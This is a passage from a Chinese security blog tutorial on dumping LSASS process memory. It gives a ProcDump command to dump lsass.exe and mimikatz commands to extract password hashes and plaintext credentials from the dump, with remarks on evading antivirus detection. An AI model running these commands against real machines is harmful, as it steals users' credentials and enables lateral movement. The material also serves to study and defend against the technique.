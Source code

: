 > 原文链接: https://www.anquanke.com//post/id/252552 


# 转储lsass的方法原理和实现学习


                                阅读量   
                                **22128**
                            
                        |
                        
                                                                                    



[![](https://p3.ssl.qhimg.com/t015720a858c8528c80.jpg)](https://p3.ssl.qhimg.com/t015720a858c8528c80.jpg)



`lsass.exe（Local Security Authority Subsystem Service`进程空间中，存有着机器的域、本地用户名和密码等重要信息。如果获取本地高权限，用户便可以访问`LSASS`进程内存，从而可以导出内部数据（password），用于横向移动和权限提升。

之前用的方式还是比较局限，很容易就会被AV进行监测拦截下来，在这里总结一部分转储lsass的方法:

## 1. 微软签名文件
<li>ProcDump<br>
ProcDump是微软签名的合法二进制文件，被提供用于转储进程内存。<br>
可以在微软文档中下载官方给出的ProcDump文件:**[https://docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)**
</li>
我们以管理员的方式运行:

```
Procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

得到转储文件`lsass.dmp`后我们将这个内存dump文件拷贝到mimikatz同目录下，双击打开mimikatz执行情况如图：

```
mimikatz # sekurlsa::minidump lsass.dmp

Switch to MINIDUMP

mimikatz # sekurlsa::logonPasswords full
```

就能够获取其目标机器的Hash

其实这种原理是`lsass.exe`是Windows系统的安全机制，主要用于本地安全和登陆策略，通常在我们登陆系统时输入密码后，密码便会存贮在`lsass.exe`内存中，经过wdigest和tspkg两个模块调用后，对其使用可逆的算法进行加密并存储在内存中，而Mimikatz正是通过对lsass.exe逆算获取到明文密码。

[![](https://p5.ssl.qhimg.com/t01c25c30348519e61a.png)](https://p5.ssl.qhimg.com/t01c25c30348519e61a.png)

火绒确实不查，但是实战过程中也遇到Procdump被杀的情况，推测可能是签名的有效期过了，这里是使用刚下好的Procdump

[![](https://p5.ssl.qhimg.com/t018c3ddbd6d54bcd98.png)](https://p5.ssl.qhimg.com/t018c3ddbd6d54bcd98.png)
